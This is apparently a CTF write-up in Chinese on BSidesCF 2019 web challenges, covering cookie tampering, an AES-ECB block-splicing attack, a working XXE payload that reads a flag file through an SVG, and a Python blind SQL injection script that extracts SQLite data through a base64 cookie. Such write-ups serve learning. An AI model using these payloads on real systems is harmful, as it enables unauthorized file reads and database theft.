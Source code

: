 # BSidesCF 2019

## Kookie

... 用user cookie登上去后抓包吧cookie username改成admin就拿到flag了？


## Pick Tac Toe

还是Burp Suite抓包 修改move的参数，棋子可以强制落

## Svg Magic

Svg应该想到XXE的 就是这个路径...

需要好好积累

> /proc/self 表示当前进程目录

Exp

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "file:///proc/self/cwd/flag.txt" >
]>
<svg height="100" width="1000">
  <text x="10" y="20">&file;</text>
</svg>
```

## Mixer

AES ECB 构造密文

根据提示is_admin是个整数

修改cookie:user后出现json串

猜测构造

```
b0c704f59962d7f398084dee08e152d1 {"first_name":"A
33a6d524a13d47f6a4dd63b5e72ee6eb 1.00000000000000
9ba3107987da6eeb016e3c48dbd7c0bf ","last_name":"E
a36daac88addff9f1ccfd106e564f2b8 ki","is_admin":0
1d440a6472a927fc8e26e13b39e31fc2 }



b0c704f59962d7f398084dee08e152d1 {"first_name":"A
33a6d524a13d47f6a4dd63b5e72ee6eb 1.00000000000000
9ba3107987da6eeb016e3c48dbd7c0bf ","last_name":"E
4be6c45f5785fddad8e6c21e6ecdd0ac kii","is_admin":
33a6d524a13d47f6a4dd63b5e72ee6eb 1.00000000000000
1d440a6472a927fc8e26e13b39e31fc2 }
```

## 参考链接

https://ctf-wiki.github.io/ctf-wiki/crypto/blockcipher/mode/ecb-zh/

### Sequel

Cookie里面可以注SQL

但是最后发现是SQLite,之前在MYSQL上能跑的脚本还跑不出来。。。

贴个脚本学习一下 利用Exist

```python
#coding=utf-8
import requests
import base64
import string
import sys

url="http://61dcd273-6f78-4432-a87c-a51cf39a5593.node3.buuoj.cn/sequels"
#sql="SELECT name FROM sqlite_master WHERE name "
#notes reviews reviews sqlite userinfo
sql = "SELECT username FROM userinfo WHERE name"
out = ""

while True:
    for letter in string.printable:
        tmp = out + letter
        if(tmp[0]=='n'):
            continue
        if(tmp[0]=='r'):
            continue
        if(tmp[0]=='s'):
            continue
        payload = r'{{"username":"\" OR EXISTS({0} LIKE \"{1}%\" limit 1) OR \"","password":"guest"}}'.format(sql,tmp)
                                                            #匹配以{1}开头的数据表
        payload = base64.b64encode(payload.encode('utf-8')).decode('utf-8')

        r = requests.get(url, cookies={"1337_AUTH" : payload})
        if (tmp[-1]=="%") :
            exit(0)
        if "Movie" in r.text:
            out = tmp
            sys.stdout.write(letter)
            sys.stdout.flush()
            break
```
